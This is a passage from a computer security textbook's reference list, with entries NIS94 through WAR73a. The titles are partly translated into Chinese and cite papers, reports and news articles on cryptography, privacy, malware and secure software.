[NIS94] NIST (National Institute of Standards and Technology). “Digital Signature Standard.” *联邦信息处理标准*, 186, 1994 年 5 月.

[NIX10] Nixon, S. “From the CIO.” *Network News*, v5 n9, 弗吉尼亚州, 2010 年 9 月 2 日.

[NOG02] Noguchi, Y. “High Wireless Acts.” *华盛顿邮报*, 2002 年 4 月 28 日.

[NRC05] NRC (National Research Council). “Asking the Right Questions About Electronic Voting.” *国家科学院白皮书*, 2005 年 9 月 25 日.

[NSA05] NSA (National Security Agency). “Redacting with Confidence: How to Safely Publish Sanitized Reports Converted from Word to PDF.” *NSA 报告*, I333-015R-2005, 2005 年 12 月 13 日.

[NSA95a] NSA (National Security Agency). “SSE CMM: Systems Security Engineering Capability Maturity Model.” *NSA SSE-CMM 模型与应用报告*, 1995 年 10 月 2 日.

[OAS05a] OASIS (Organization for the Advancement of Structure Information Standards). “Assertions and Protocols for the OASIS Security Assertion Markup Language (SAML) V2.0.” *OASIS 标准*, 2005 年 3 月 15 日.

[OAS05b] OASIS (Organization for the Advancement of Structure Information Standards). “Security and Privacy Considerations for the OASIS Security Assertion Markup Language (SAML) V2.0.” *OASIS 标准*, 2005 年 3 月 15 日.

[OBE04] Oberholzer, F., and Strumpf, K. “The Effect of File Sharing on Record Sales: An Empirical Analysis.” *未出版白皮书*. [`www.unc.edu/~cigar/papers/FileSharingMarch2004.pdf`](http://www.unc.edu/~cigar/papers/FileSharingMarch2004.pdf)

[ODL03] Odlyzko, A. “隐私、经济学与互联网上的价格歧视。” *未发表的白皮书*. [`www.dtc.umn.edu/~odlyzko/doc/privacy.economics.pdf`](http://www.dtc.umn.edu/~odlyzko/doc/privacy.economics.pdf)

[OHI09] Ohigashi, T., and Morii, M. “针对 WPA 的实用消息伪造攻击.” *IEICE 信息系统研究者会议*, 2009.

[OLS93] Olsen, N. “软件高峰期.” *IEEE Software*, v10 n5, 1993 年 5 月, 第 29–37 页.

[OMA09] O’Malley, O., et al. “Hadoop 安全设计.” Yahoo! 白皮书, 2009. [`issues.apache.org/jira/secure/attachment/12428537/security-design.pdf`](https://issues.apache.org/jira/secure/attachment/12428537/security-design.pdf)

[ORM03] Orman, H. “莫里斯蠕虫：十五年回顾.” *IEEE Security & Privacy*, v1 n5, 2003 年 9 月, 第 35–43 页.

[ORT11] Ortiz, S. “P2P 技术正在衰退吗？” *IEEE Comp*, v44 n2, 2011 年 2 月, 第 11–13 页.

[OWA10] OWASP (开放 Web 应用安全项目). *OWASP Top 10—2010 版*. OWASP 基金会, 2010.

[PAL01] Palmer, C. “道德黑客.” *IBM Systems Jl*, v40 n3, 2001, 第 769–780 页.

[PAN06] Panja, T. “指纹确认失踪男子身份.” *Washington Post*, 2006 年 5 月 8 日.

[PAR79] Parker, D. *计算机科学与技术中的伦理冲突*. AFIPS Press, 1979.

[PAR84] Parker, D., and Nycum, S. “计算机犯罪.” *Comm of the ACM*, v27 n4, 1984 年 4 月, 第 313–321 页.

[PAR98] Parker, D. *打击计算机犯罪*. Wiley, 1998.

[PAU93] Paulk, M., et al. “能力成熟度模型，版本 1.1.” *IEEE Software*, v10 n4, 1993 年 7 月, 第 18–27 页.

[PEL05] Pelligra, V. “在信任的注视下：信任的回应本质.” *经济学与社会互动：人际关系核算*, Cambridge Univ Press, 2005.

[PER13] Perlroth, N., et al. “美国国家安全局能够破解网络上基本的隐私保护措施.” *New York Times*, 2013 年 9 月 5 日.

[PET95] Pettit, P. “信任的狡诈.” *Philosophy and Public Affairs*, v24 n3, 1995 年 6 月, 第 202–225 页.

[PET99] Petitcolas, F., et al. “信息隐藏——综述.” *Proc IEEE*, v87, n7, 第 1062–1078 页.

[PFL02] Pfleeger, S., et al. *可靠软件*. Prentice-Hall, 2002.

[PFL05] Pfleeger, S. “汤还是艺术？证据力在*实证*软件工程中的作用.” *IEEE Software*, 2005 年 1–2 月.

[PFL06] Pfleeger, S., et al. “投资网络安全：最佳实践之路.” *Cutter IT Jl*, v19 n1, 2006 年 1 月, 第 11–18 页.

[PFL06b] Pfleeger, S., and Pfleeger, C. “为什么我们不评论黑客写的书.” *IEEE Security & Privacy*, v4 n4, 2006 年 7 月.

[PFL07] Pfleeger, C., and Pfleeger, S. *计算机安全*. 第 4 版, Prentice Hall (Pearson Education, Inc.), 2007.

[PFL08] Pfleeger, S., and Rue, R. “网络安全经济问题：通往最佳实践之路.” *IEEE Software*, v25, n1, 2008, 第 35–42 页.

[PFL09] Pfleeger, S., and Stolfo, S. “应对内部威胁.” *IEEE Security & Privacy*, v7 n6, 2009 年 11/12 月, 第 10–13 页.

[PFL10a] Pfleeger, S., and Atlee, J. *软件工程：理论与实践*. 第 4 版, Prentice Hall, 2010.

[PFL10b] Pfleeger, S. “入侵剖析.” *IT Professional*, v12 n4, 2010 年 7/8 月, 第 20–28 页.

[PFL10c] Pfleeger, S., et al. “行为不端的内部人员：应对恶意行为者及其行为.” *IEEE Trans Info Forensics and Sec*, v15 n1, 2010 年 3 月, 第 169–179 页.


### 参考文献

[PFL10d] Pfleeger, C. “加密：不仅仅是给防守方用的。” *IEEE Security & Privacy*，v8 n2，2010 年 3 月，第 63–66 页。

[PFL85] Pfleeger, S., and Straight, D. *离散结构导论*。 John Wiley and Sons，1985。

[PFL91] Pfleeger, S. “安全需求框架。” *Computers and Security*，v10 n6，1991 年 10 月，第 515–523 页。

[PFL93] Pfleeger, C. “如果不安全，IT 如何能安全？” *Proc Safety Critical Systems Conf*，1993 年 4 月。

[PFL94] Pfleeger, C. “计算机安全中形式化方法的用法与误用。” *Proc IMA Conf on Mathematics of Dependable Systems*，1994。

[PFL97] Pfleeger, C. “信息安全基础。” *IEEE Software*，v14 n1，1997 年 1 月，第 15–16, 60 页。

[PFL97a] Pfleeger, S., and Hatton, L. “研究形式化方法的影响。” *IEEE Computer*，v30 n2，1997 年 2 月。

[PIL08] Pilosov, A., and Kapela, T. “窃取互联网。” *Defcon 2008*，2008。

[PIN04] Pincus, J., and Baker, B. “超越栈溢出：利用缓冲区溢出的最新进展。” *IEEE Security & Privacy*，v2 n4，2004 年 7 月，第 20–27 页。

[PLA13] Plafke, J. “新型光学激光可将 DVD 存储容量提高至 1 PB。” *Extreme Tech*，2013 年 6 月 20 日

[PON08] Ponemon Institute. “机场不安全：笔记本电脑丢失案例。” *未发表的白皮书*，2008 年 7 月 29 日。

[PON09] Ponemon Institute. “第四届美国数据泄露成本研究。” *未发表的白皮书*，2009 年 1 月。

[POO10] Poovey, B. “佩林邮箱黑客被判一年监禁。” *Washington Post*，2010 年 11 月 12 日。

[POP78] Popek, G., and Kline, C. “加密协议、公钥算法和数字签名。” 见 *Foundations of Secure Computation*，R. Demillo 编，Academic Press，1978，第 133–155 页。

[POR09] Porras, P., et al. “Conficker 逻辑与汇聚点分析。” *SRI 技术报告*，2009 年 2 月 4 日。 [`mtc.sri.com/Conficker/`](http://mtc.sri.com/Conficker/)

[POU05] Poulsen, K. “联邦政府对抗有组织网络犯罪。” *Security Focus*，2005 年 2 月 17 日。 [`www.securityfocus.com/print/news/10525`](http://www.securityfocus.com/print/news/10525)

[PRE07] Prevalakis, V., and Spinellis, D. “雅典事件。” *IEEE Spectrum*，v44 n7，2007 年 7 月。

[PRE11] Preston, J., and Stelter, B. “手机成为抗议活动的世界之眼和世界之耳。” *New York Times*，2011 年 2 月 18 日。

[PUB01] Public Citizen. “福特/普利司通悲剧的真正根本原因：为何公众仍处于风险之中。” *Public Citizen 白皮书*，2001 年 4 月 25 日。 URL: [www.citizen.org/documents/rootcause.pdf](http://www.citizen.org/documents/rootcause.pdf)。

[RAB93] Rabin, M. “将公平性纳入博弈论与经济学。” *American Economic Review*，v83 n5，1993 年 9 月，第 1281–1302 页。

[RAM99] Ramdell, B. “S/MIME 版本 3 消息规范。” *Internet Engineering Task Force Report RFC2633*，1999 年 4 月。

[RAN05] Ranum, M. “计算机安全领域六个最愚蠢的想法。” *Certified Security Online Magazine*，2005 年 9 月 6 日。 [`www.certifiedsecuritypro.com/content/view/154/90/`](http://www.certifiedsecuritypro.com/content/view/154/90/)

[RAN08] Rantala, R. “针对企业的网络犯罪，2005。” *特别报告 NCJ221943, U.S. Bureau of Justice Statistics*，2008 年 9 月。 [`bjs.ojp.usdoj.gov/content/pub/pdf/cb05.pdf`](http://bjs.ojp.usdoj.gov/content/pub/pdf/cb05.pdf)

[RAN92] Ranum, M. “网络防火墙。” 国际系统与网络安全和管理会议论文集 (SANS-1)，1992 年 11 月。

[RAN94] Ranum, M., and Avolio, F. “互联网防火墙工具包与方法。” *Proc Usenix Security Symp*，1994。

[RAS06] Rash, W. “报告抨击退伍军人事务部对笔记本电脑被盗事件的应对。” *eWeek*，2006 年 7 月 13 日。

[REE60] Reed, I., and Solomon, G. “某些有限域上的多项式码。” *Jl Soc for Industrial and Applied Mathematics*，v8 n2，第 300–304 页。

[RES04] Rescorla, E. “发现安全漏洞是个好主意吗？” *信息安全经济学研讨会论文集*。 2004。 [`www.dtc.umn.edu/weis2004/rescorla.pdf`](http://www.dtc.umn.edu/weis2004/rescorla.pdf)

[REZ03] Rezgui, A., et al. “Web 上的隐私：事实、挑战与解决方案。” *IEEE Security & Privacy*，v1 n6，2005 年 11 月，第 40–49 页。

[RIV78] Rivest, R., et al. “一种获取数字签名和公钥密码系统的方法。” *Comm of the ACM*，v21 n2，1978 年 2 月，第 120–126 页。

[RIV84] Rivest, R., and Shamir, A. “如何暴露窃听者。” *Comm of the ACM*，v27 n4，1984 年 4 月，第 393–395 页。

[RIV94] Rivest, R. “RC5 加密算法（修正版）。” *1994 年鲁汶快速软件加密研讨会论文集*。 1994。

[ROC89] Rochlis, J., and Eichin, M. “With Microscope and Tweezers: The Worm From MIT’s Perspective.” *Comm of the ACM,* v32 n6, Jun 1989.

[ROO93] Rook, P. “Risk Management for Software Development.” *ESCOM tutorial*, 24 Mar 1993.

[ROO95] Roos, A. “Weak Keys in RC4.” *posting to sci.crypt,* 22 Sep 1995. [`marcel.wanda.ch/Archive/WeakKeys`](http://marcel.wanda.ch/Archive/WeakKeys)

[ROS10] Ross, A. “Iris Recognition: The Way Forward.” *IEEE Computer,* v43 n2, Feb 2010, p30–34.

[ROS30] Ross, W. *The Right and the Good*. Springer-Verlag, 1930.

[ROW06] Rowe, B., and Gallaher, M. “Private Sector Cyber Security Investment Strategies: An Empirical Analysis.” *Workshop on the Economics of Info Security,* 2006.

[RUB00] Rubin, A. “Security Considerations for Remote Electronic Voting over the Internet.” *Proc Internet Policy Institute Workshop on Internet Voting,* Oct 2000.

[RUB01] Rubin, A. *White Hat Arsenal*. Addison-Wesley, 2001.

[RUB02] Rubin. A. “Security Considerations for Remote Electronic Voting.” *Comm of the ACM,* v45 n12, Dec 2002, p39–44.

[RUE09] Rue, R., and Pfleeger, S. “Making the Best Use of Cybersecurity Economic Models.” *IEEE Security & Privacy,* v7, n4, 2009, p52–60.

[RUE14] Ruefle, R., et al. “Computer Security Incident Response Team Development and Evolution.” *IEEE Security & Privacy*, v12, n5, Sept 2014.

[RUS05] Russinovich, M. “Sony, Rootkits and Digital Rights Management Gone Too Far.” *Internet blog,* 31 Oct 2005. [www.sysinternals.com/blog/2005\_10\_01\_archive.html#](http://www.sysinternals.com/blog/2005_10_01_archive.html#)

[RUS83] Rushby, J., and Randell, B. “A Distributed Secure System.” *IEEE Computer,* v16 n7, Jul 1983, p55–67.

[RYS14] Ryssdal, K. “Are Smart Toilets Upon Us? Sadly, No.” *Marketplace*, 2 May 2014. [`www.marketplace.org/topics/tech/final-note/are-smart-toilets-upon-us-sadly-no`](http://www.marketplace.org/topics/tech/final-note/are-smart-toilets-upon-us-sadly-no)

[SAF11] Software Assurance Forum for Excellence in Code (SAFECode). “Fundamental Practices for Secure Software Development.” *self-published report,* 2nd ed., 8 Feb 2011.

[SAL74] Saltzer, J. “Protection and the Control of Information Sharing in MULTICS.” *Comm of the ACM,* v17 n7, Jul 1974, p388–402. [`doi.acm.org/10.1145/361011.361067`](http://doi.acm.org/10.1145/361011.361067)

[SAL75] Saltzer, J., and Schroeder, M. “The Protection of Information in Computing Systems.” *Proc of the IEEE,* v63 n9, Sep 1975, p1278–1308. [`web.mit.edu/Saltzer/www/publications/protection/index.html`](http://web.mit.edu/Saltzer/www/publications/protection/index.html)

[SAN02] Sandoval, R. “Why Hackers Are a Step Ahead of the Law.” *CNET Tech News,* 14 May 2002.

[SAN09] Sandvine. “Global Broadband Phenomena.” *web posting,* 2009. [`www.sandvine.com/downloads/documents/2009`](http://www.sandvine.com/downloads/documents/2009) Global Broadband Phenomena—Full Report.pdf

[SAS04] Sasse, [M.] A. “Usability and Trust in Info Sys.” *Report of the Cyber Trust and Crime Prevention Project,* 2004. [`hornbeam.cs.ucl.ac.uk/hcs/publications`](http://hornbeam.cs.ucl.ac.uk/hcs/publications)

[SAS07] Sasse, [M.] A. “GrIDSure Usability Trials.” *web page,* 2007. [`www.gridsure.com/uploads/UCL%20Report%20Summary%20.pdf`](http://www.gridsure.com/uploads/UCL%20Report%20Summary%20.pdf)

[SCA07] Scarfone, K., and Mell, P. “Guide to Intrusion Detection and Prevention Systems (IDPS).” *NIST Special Publication 800-94,* Feb 2007.

[SCH00] Schneier, B. “Semantic Attacks: The Third Wave of Network Attacks.” *Cryptogram Newsletter,* 15 Oct 2000.

[SCH00b] Schell, R. “Note on Malicious Software.” *Unpublished Naval Postgraduate School white paper,* 2000.

[SCH03] Schneier, B. “Locks and Full Disclosure.” *IEEE Security & Privacy,* v1 n2, Mar 2003, p88.

[SCH04] Schneier, B. “What’s Wrong with Electronic Voting Machines.” *Open Democracy tech report,* 9 Nov 2004.

[SCH05] Schneider, F., and Zhou, L. “Implementing trustworthy services using replicated state machines.” *IEEE Security & Privacy,* v3 n5, Sep 2005, p34–45.

[SCH06] Schneier, B. “Everyone Wants to ‘Own’ Your PC.” *Wired News,* 4 May 06.

[SCH06a] Schuman, E. “Consumers Resist Retail Biometrics.” *eWeek,* 30 Jan 2006.

[SCH10] Schechter, S., et al. “Popularity Is Everything: A New Approach to Protecting Passwords from Statistical-Guessing Attacks.” *Proc 5th USENIX Workshop on Hot Topics in Security,* 10 Aug 2010.

[SCH13] Schneier, B. “Will Keccak = SHA-3?” *Schneier on Security blog*. 1 Oct 2013. [`www.schneier.com/blog/archives/2013/10/whois\_privacy\_a.html`](https://www.schneier.com/blog/archives/2013/10/whois_privacy_a.html)


### 参考文献

[SCH14] Schwartz, M. “Target Ignored Data Breach Alarms.” *Information Week Dark Reading,* 14 Mar 2014.

[SCH72] Schroeder, M., and Saltzer, J. “A Hardware Architecture for Implementing Protection Rings.” *Comm of the ACM,* v15 n3, Mar 1972, p157–170.

[SCH79] Schell, R. “Computer Security.” *Air Univ Review,* Jan–Feb 1979, p16–33. [`www.airpower.au.af.mil/airchronicles/aureview/1979`](http://www.airpower.au.af.mil/airchronicles/aureview/1979)

[SCH83] Schell, R. “A Security Kernel for a Multiprocessor Microcomputer.” *IEEE Computer,* v16 n7, Jul 1983, p47–53.

[SCH89a] Schaefer, M. “Symbol Security Condition Considered Harmful.” *Proc IEEE Symp on Security & Privacy,* 1989, p20–46.

[SEA09] Seacord, R. *The CERT C Secure Coding Standard*. Addison-Wesley, 2009.

[SEC99] SEC (U.S. Army Software Engineering Center Security Office). *OPSEC Primer*. 27 Jun 1999.

[SEI01] Seife, C. “More Than We Need to Know.” *Washington Post,* 19 Nov 2001, pA37.

[SEI03] Seigneur, J., and Jensen, C. “Privacy Recovery with Disposable Email Addresses.” *IEEE Security & Privacy,* v1 n6, Nov 2003, p35–39.

[SEI06] Seifert, J. “Data Mining and Homeland Security: An Overview.” *Congressional Research Service Reports for Congress*, RL31798, 27 Jan 2006.

[SEL14] Selyukh, A. “New hopes for U.S. data breach law collide with old reality.” *Reuters*, 11 Feb 2014. [`www.reuters.com/article/2014/02/11/us-usa-security-congress-idUSBREA1A20O20140211`](http://www.reuters.com/article/2014/02/11/us-usa-security-congress-idUSBREA1A20O20140211)

[SEV11] Severson, K. “Digital Age Is Slow to Arrive in Rural America.” *New York Times,* 17 Feb 2011.

[SHA00] Shankland, S. “German Programmer ‘Mixter’ Addresses Cyberattacks.” *Cnet News.com,* 14 Feb 2000.

[SHA11] Shadbolt, P. “How Microbloggers Vault the ‘Great Firewall of China’.” *CNN World,* 20 Feb 2011. [`www.cnn.com/2011/WORLD/asiapcf/02/18/china.microblogs/`](http://www.cnn.com/2011/WORLD/asiapcf/02/18/china.microblogs/)

[SHA49] Shannon, C. “Communication Theory of Secrecy Systems.” *Bell Systems Technical Journal,* v28, Oct 1949, p659–715.

[SHA93] Shamos, M. “Electronic Voting—Evaluating the Threat.” *Proc Computers, Freedom and Privacy Conf,* 1993.

[SHN04] Shneiderman, B. “Designing for Fun: How Can We Design Computer Interfaces to Be More Fun?” *ACM Interactions,* v11 n5, Sep 04, p48–50.

[SHO82] Shoch, J., and Hupp, J. “The ‘Worm’ Programs—Early Experience with a Distributed Computation System.” *Comm of the ACM,* v25 n3, Mar 1982, p172–180.

[SIM84] Simmons, G. “The Prisoner’s Problem and the Subliminal Channel.” *Proc Crypto 83,* 1984, p51–67.

[SIT01] Sit, E., and Fu, K. “Web Cookies: Not Just a Privacy Risk.” *Comm of the ACM*, v44 n9, Sep 2001, p120.

[SLO99] Slovic, P. “Trust, Emotion, Sex, Politics and Science: Surveying the Risk-Assessment Battlefield.” *Risk Analysis,* v19, n4, 1999, p689–701.

[SMI03] Smith, D. “The Cost of Lost Data.” *Graziadio Business Review,* v6 n3, 2003. [`gbr.pepperdine.edu/2010/08/the-cost-of-lost-data/`](http://gbr.pepperdine.edu/2010/08/the-cost-of-lost-data/)

[SMI05] Smith, S. “Pretending that Systems Are Secure.” *IEEE Security & Privacy,* v3 n6, Nov 2005, p73–76.

[SMI13] Smith, R. “Compilation of State and Federal Privacy Laws.” *隐私期刊*, 2013. [`www.privacyjournal.net/_center_compilation_of_state_and_federal_privacy_laws__center__3077.htm`](http://www.privacyjournal.net/_center_compilation_of_state_and_federal_privacy_laws__center__3077.htm)

[SNO05] Snow, B. “We Need Assurance!” *ACSAC 会议论文集*, 2005. [www.acsa-admin.org/2005/papers/snow.pdf](http://www.acsa-admin.org/2005/papers/snow.pdf)

[SOL10] Solar, I. “Bacteria Cells Used as Secure Information Storage Device.” *数字期刊*, 2010 年 11 月 29 日. [`www.digitaljournal.com/article/300831`](http://www.digitaljournal.com/article/300831)

[SOL77] Solovay, E., and Strassen, V. “A Fast Monte-Carlo Test for Primality.” *SIAM 计算期刊*, 第 6 卷, 1977 年 3 月, 第 84–85 页.

[SOM10] Sombers Associates, Inc., and Highleyman, W. “The State of Virginia–Down for Days.” *可用性报告*, 2010 年 10 月.

[SOM11] Sommer, P., and Brown, I. “Reducing Systemic Cybersecurity Risk.” *经合组织报告*, IFP/WKP/FGS(2011)3, 2011.

[SOM12] Somorovsky, J., et al. “On Breaking SAML: Be Whoever You Want to Be.” *Usenix Security 2012*, 2012.

[SOP04] Sophos, Ltd. “Interview with a virus writer.” *Sophos 新闻文章*, 2004 年 6 月 17 日.

[SOP10] Sophos. “Security Threat Report.” *网络报告*, 2010. [`www.sophos.com/sophos/docs/eng/papers/sophos-security-threat-report-jan-2010-wpna.pdf`](http://www.sophos.com/sophos/docs/eng/papers/sophos-security-threat-report-jan-2010-wpna.pdf)

[SPA89] Spafford, E. “The Internet Worm Incident.” *欧洲软件工程会议论文集*, 1989, 第 203–227 页.

[SPA92] Spafford, E. “Are Computer Hacker Break-Ins Ethical?” *系统与软件期刊*, 第 17 卷 第 1 期, 1992 年 1 月, 第 493–506 页.

[SPA92a] Spafford, E. “Observing Reusable Password Choices.” *Usenix Unix 安全 III 研讨会论文集*, 1992, 第 299–312 页.

[SPA98] Spafford, E. “Are Computer Hacker Break-Ins Ethical?” 收录于 *Internet Besieged*, [DEN98], 第 493–506 页.

[STA96] Staniford-Chen, S., et al. “GrIDS—A Graph-Based Intrusion Detection System for Large Networks.” *国家信息系统安全会议论文集*, 1996.

[STE07] Stevens, M., et al. “Chosen-Prefix Collisions for MD5 and Colliding X.509 Certificate for Different Identities.” *密码学进展: Eurocrypt 2007 论文集*, 第 4515/2007 卷, 第 1–22 页.

[STE09] Stevens, M., et al. “Short Chosen-Prefix Collisions for MD5 and the Creation of a Rogue CA Certificate.” *Crypto 2009 论文集*, 2009.

[STE10] Steel, E., and Fowler, G. “Facebook in Online Privacy Breach.” *华尔街日报*, 2010 年 10 月 16 日.

[STE88] Steiner, J., “Kerberos: An Authentication Service for Open Network Systems.” *Usenix 会议论文集*, 1988 年 2 月, 第 191–202 页.

[STO08] StopBadware.org. “Badware Websites Report.” *网络报告*, 2008 年 5 月. [`stopbadware.org/home/badwebs`](http://stopbadware.org/home/badwebs)

[STO10] Storms, A. “Five Important Security Resolutions for Adobe.” *卡巴斯基威胁帖子*, 2010 年 1 月 7 日. [`threatpost.com.mx/en_us/blogs/five-important-security-resolutions-adobe-010710`](http://threatpost.com.mx/en_us/blogs/five-important-security-resolutions-adobe-010710)

[STO88] Stoll, C. “Stalking the Wily Hacker.” *ACM 通讯*, 第 31 卷 第 5 期, 1988 年 5 月, 第 484–497 页.

[STO89] Stoll, C. *The Cuckoo’s Egg*. Doubleday, 1989.

[STR10] Stroz, Friedberg. “Source Code Analysis of gstumbler.” *Stroz Friedberg 报告*, 2010 年 6 月 3 日.

[STR14] Streitfeld, D. “Writers Feel an Amazon-Hachette Spat,” *纽约时报*, 2014 年 5 月 9 日. [`www.nytimes.com/2014/05/10/technology/writers-feel-an-amazon-hachette-spat.html?_r=0`](http://www.nytimes.com/2014/05/10/technology/writers-feel-an-amazon-hachette-spat.html?_r=0)

[SUL13] Sullivan, B., et al. “Practices for Secure Development of Cloud Applications.” *SAFECode 和云安全联盟白皮书*, 2013 年 12 月 5 日.

[SUT95] Sutherland, J. “Business Objects in Corporate Information Systems.” *ACM 计算评论*, 第 27 卷 第 2 期, 1995, 第 274–276 页.

[SWA11] Swarz, J. “‘Kill Switch’ Internet Bill Alarms Privacy Experts.” *今日美国*, 2011 年 2 月 15 日.

[SWE01] Sweeney, L. “Information Explosion.” *Confidentiality, Disclosure and Data Access*, Urban Institute, 2001.

[SWE04] Sweeney, L. “Finding Lists of People on the Web.” *ACM 计算机与社会*, 第 37 卷 第 1 期, 2004 年 4 月.

[SUL13] Sullivan, N. “A (Relatively Easy to Understand) Primer on Elliptic Curve Cryptography.” *Ars Technica*, 2013 年 10 月 24 日. [`arstechnica.com/security/2013/10/a-relatively-easy-to-understand-primer-on-elliptic-curve-cryptography/`](http://arstechnica.com/security/2013/10/a-relatively-easy-to-understand-primer-on-elliptic-curve-cryptography/)

[SYM06] Symantec Corp. “Trends for July 05–December 05.” *赛门铁克互联网威胁报告*, 第 IX 卷, 2006 年 3 月.

[SYM10] Symantec Corp. “Symantec Global Internet Security Threat Report.” 第 XV 卷, 2010 年 4 月.


## 参考文献

[SYM14a] Symantec Corp. “Covert Redirect Flaw in OAuth Is Not the Next Heartbleed.” *赛门铁克博客*, 2014 年 5 月 3 日. [`www.symantec.com/connect/blogs/covert-redirect-flaw-oauth-not-next-heartbleed`](http://www.symantec.com/connect/blogs/covert-redirect-flaw-oauth-not-next-heartbleed)

[SYM14b] Symantec Corp. “Internet Security Threat Report, Appendix.” 第 19 卷, 2014.

[SYV97] Syverson, P., et al. “Anonymous Connections and Onion Routing,” *IEEE 安全与隐私研讨会论文集*. 1997 年 5 月, 第 44–54 页.

[TAP04] TAPAC (Technology and Privacy Advisory Committee to the DoD). “Safeguarding Privacy in the Fight Against Terrorism.” *委员会报告*, 2004 年 3 月 1 日.

[TAU14] Taub, E. “Smartphones, Smartwatches, and Now, Smart Toothbrushes,” *纽约时报*, 2014 年 5 月 7 日. [`nyti.ms/1iYPgO5`](http://nyti.ms/1iYPgO5)

[TEN90] Teng, H., et al. “Security Audit Trail Analysis Using Inductively Generated Predictive Rules.” *人工智能应用会议论文集*, 1990 年 3 月, 第 24–29 页.

[THE07] Theofanos, M., et al. “Usability Testing of Ten-Print Fingerprint Capture.” *NIST 报告 IR 7403*, 2007 年 3 月. [`zing.ncsl.nist.gov/biousa/docs/NISTIR-7403-Ten-Print-Study-03052007.pdf`](http://zing.ncsl.nist.gov/biousa/docs/NISTIR-7403-Ten-Print-Study-03052007.pdf)

[THO03] Thompson, H. “Why Security Testing Is Hard.” *IEEE 安全与隐私*, 第 1 卷 第 4 期, 2003 年 7 月, 第 83–86 页.

[THO05] Thornburgh, N. “The Invasion of the Chinese Cyberspies (And the Man Who Tried to Stop Them).” *时代周刊*, 2005 年 8 月 29 日.

[THO06] Thompson, C. “Google’s China Problem (And China’s Google Problem).” *纽约时报*, 2006 年 4 月 23 日.

[THO08] Thompson, C. “Can You Count on Voting Machines?” *纽约时报*, 2008 年 1 月 6 日.

[THO11] Thompson, D. “California Man Used Facebook to Hack Women’s E-Mails.” *华盛顿邮报*, 2011 年 1 月 14 日.

[THO84] Thompson, K. “Reflections on Trusting Trust.” *ACM 通讯*, 第 27 卷 第 8 期, 1984 年 8 月, 第 761–763 页.

[TIL03] Tiller, J. *The Ethical Hack: A Framework for Business Value Penetration Testing*. Auerbach, 2003.

[TOD13] Todorov, D., and Ozkan, Y. “AWS Security Best Practices.” *亚马逊网络服务白皮书*, 2013 年 11 月.

[TRA07] Traynor, I. “Russia accused of unleashing cyberwar to disable Estonia.” *卫报*, 2007 年 5 月 17 日.

[TRE10] Treit, R. “Some Observations on Rootkits.” *微软恶意软件防护中心博客*, 2010 年 1 月 7 日. [`blogs.technet.com/b/mmpc/archive/2010/01/07/some-observations-on-rootkits.aspx`](http://blogs.technet.com/b/mmpc/archive/2010/01/07/some-observations-on-rootkits.aspx)

[TRI06] Tripunitara, M., and Li, N. “The Foundational Work of Harrison–Ruzzo–Ullman Revisited.” *CERIAS 技术报告*, 2006-33, 2006.

[TRO04] Trope, R., “A Warranty of Cyberworthiness.” *IEEE 安全与隐私*, 第 2 卷 第 2 期, 2004 年 3 月, 第 73–76 页.

[TRO10] Trope, R., and Ray, C. “The Real Realities of Cloud Computing: Ethical Issues for Lawyers, Law Firms and Judges,” 2010. [`ftp.documation.com/references/ABA10a/PDfs/3_1.pdf`](http://ftp.documation.com/references/ABA10a/PDfs/3_1.pdf)

[TSI05] Tsipenyuk, K., et al. “Seven Pernicious Kingdoms: A Taxonomy of Software Security Errors.” *IEEE Security & Privacy,* v3 n6, Nov 2005, p81–86.

[TUR05] Turow, J., et al. “Open to Exploitation: American Shoppers Online and Offline.” *Annenberg Public Policy Center/Univ of Pennsylvania report,* Jun 2005.

[TUR75] Turn, R., and Ware, W. “Privacy and Security in Computer Systems.” *RAND Technical Report,* P-5361, Jan 1975.

[UCS01] UCSD (Univ of California, at San Diego). “Inferring Internet Denial-of-Service Activity.” *Cooperative Association for Internet Data Analysis Report,* 25 May 2001. [`www.caida.org/outreach/papers/backscatter/usenixse`](http://www.caida.org/outreach/papers/backscatter/usenixse)

[ULE11] Ulery, B., et al. “Accuracy and Reliability of Forensic Latent Fingerprint Decisions.” *Proc Natl Academy of Sciences,* 25 Apr 2011.

[VAI04] Vaidya, J., and Clifton, C. “Privacy-Preserving Data Mining: Why, How and When.” *IEEE Security & Privacy,* v2 n6, Nov 2004, p19–27.

[VAM07] Vamosi, R. “Cyberattack in Estonia—what it really means.” *Cnet News,* 29 May 2007.

[VAN08] van Eeten, M., and Bauer, J. “Economics of Malware: Security Decisions, Incentives and Externalities.” *STI Working Paper (OECD),* JT03246705, 29 May 2008.

[VAR02] Varian, H. “The Economics of Innovation,” *Infoworld*, Dec 2002.

[VER09] Verizon Corp. “Data Breach Investigations Report.” *Verizon Report,* 2009.

[VER14] Verizon Corp. “Data Breach Investigations Report.” *Verizon Report*, 2014.

[VIE01] Viega, J., and McGraw, G. *Building Secure Software*. Addison-Wesley, 2001.

[VIJ07] Vijayan, J. “Reverse hacker wins $4.3M in Suit Against Sandia Labs.” *Computerworld,* 14 Feb 2007.

[VIJ09] Vijayan, J. “Classified Data on President’s Helicopter Leaked via P2P, Found on an Iranian computer.” *Computerworld,* 2 Mar 2009.

[VIL10] Villeneuve, N. “Koobface: Inside a Crimeware Network.” *Technical Report, Munk School of Global Affairs, Univ of Toronto,* JR04-2010, 12 Nov 2010.

[WAG95] Wagner, D. “My Weak RC4 Keys.” *posting to sci.crypt,* 26 Jun 1995. [`www.cs.berkeley.edu/~daw/my-posts/my-rc4-weak-keys`](http://www.cs.berkeley.edu/~daw/my-posts/my-rc4-weak-keys)

[WAL02] Wallach, D. “A Survey of Peer to Peer Security Issues.” *Proc Intl Symp on Software Security,* Nov 2002.

[WAL14] Wald, M. “Experts Seek Smarter Black Boxes for Automobiles,” *New York Times*, 9 May 2014. [`www.nytimes.com/2014/05/10/business/experts-seek-smarter-black-boxes-for-cars-and-trucks.html?ref=business&_r=0`](http://www.nytimes.com/2014/05/10/business/experts-seek-smarter-black-boxes-for-cars-and-trucks.html?ref=business&_r=0)

[WAN05] Wang, X., et al. “Finding Collisions in the Full SHA-1.” *Proc Crypto 2005,* 2005.

[WAR11] Warrick, J. “Iran Recovered Swiftly in Wake of Stuxnet Cyberattack.” *Washington Post,* 16 Feb 2011.

[WAR70] Ware, W. “Security Controls for Computer Systems.” *RAND Corp Technical Report,* R-609-1, Feb 1970. [`csrc.nist.gov/publications/history/ware70.pdf`](http://csrc.nist.gov/publications/history/ware70.pdf)

[WAR73a] Ware, W. “Records, Computers and the Rights of Citizens.” *U.S. Dept of Health, Education and Welfare Publication,* (OS) 73-94 (also RAND Paper P-5077), Aug 1973. [`aspe.hhs.gov/datacncl/1973privacy/tocprefac`](http://aspe.hhs.gov/datacncl/1973privacy/tocprefac)

